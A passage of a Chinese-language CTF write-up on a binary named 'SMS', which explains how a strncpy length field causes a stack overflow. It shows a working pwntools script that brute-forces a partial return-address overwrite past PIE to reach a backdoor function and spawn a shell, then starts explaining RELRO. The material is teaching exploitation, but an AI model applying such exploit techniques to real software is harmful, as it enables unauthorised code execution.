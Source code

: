 set\_sms函数：

![image-20220202162644075](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-8db3a1738ed68835567c1e1f0aad3c0b68970847.png)

程序存在后门函数——frontdoor，进入看看:

![image-20220202163243404](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-988136dd303cf9c911b08004de8559fa887b283f.png)

##### 思路：

重要的地方在于，fgets向s处读入数据，然后通过strncpy函数，将读入的s的 （a1+180） 长度，复制到a1。a1+180处 要被当做数值来执行strncpy，只要a1+180处数值足够大就可以造成栈溢出。由set\_user函数可以知道，a1+180处的数据刚刚好是可以改写的。所以我们只要利用栈溢出改写程序的返回地址为后门函数的地址即可。但因为本题开启了PIE，我们无法知道后门函数的准确地址，我们只知道它后3位为 **0x900**：

![image-20220202164546065](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-dadcb7eb7dc30807cb965b67d6ab7eae50eb401a.png)

所以我们利用 **partial write** 方法来部分覆盖返回地址，但是由于payload必须按字节写入，每个字节是两个十六进制数，所以我们必须输入两个字节。除去已知的0x900还需要爆破一个十六进制数。这个数只可能在0~0xf之间改变，因此爆破空间不大，可以接受。

##### EXP：

```python
#coding:utf-8
from pwn import *
context.log_level = 'debug'

i = 0
while True:
    i += 1
    success("this is the %d times" % i)
    p = process('./SMS')
    payload1 = 'a'*40 + '\xca'
    p.sendlineafter('Enter your name\n', payload1)
    payload2 = 'b'*200 + '\x01\x09'  # 这里假设实际地址低16位为0x0901，爆破直到地址正确
    p.sendlineafter('SMS our leader\n', payload2)
    p.recv()
    try:
        p.recv(timeout = 1)
    except EOFError:
        p.close()   # 如果触发异常，即地址第16位不为0x0901，那么关闭程序，继续下一趟的尝试
        continue
    else:   # 没有触发异常，说明程序成功调用frontdoor，那么输入参数获取shell
        p.sendline('/bin/sh\x00')
        p.interactive()
        break
```

### 四、RELRO

**RELRO**（ReLocation Read-Only）是设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击的一种程序保护机制。

在Linux中有两种RELRO模式：`Partial RELRO` 和 `Full RELRO`。Linux中`Partical RELRO`默认开启。
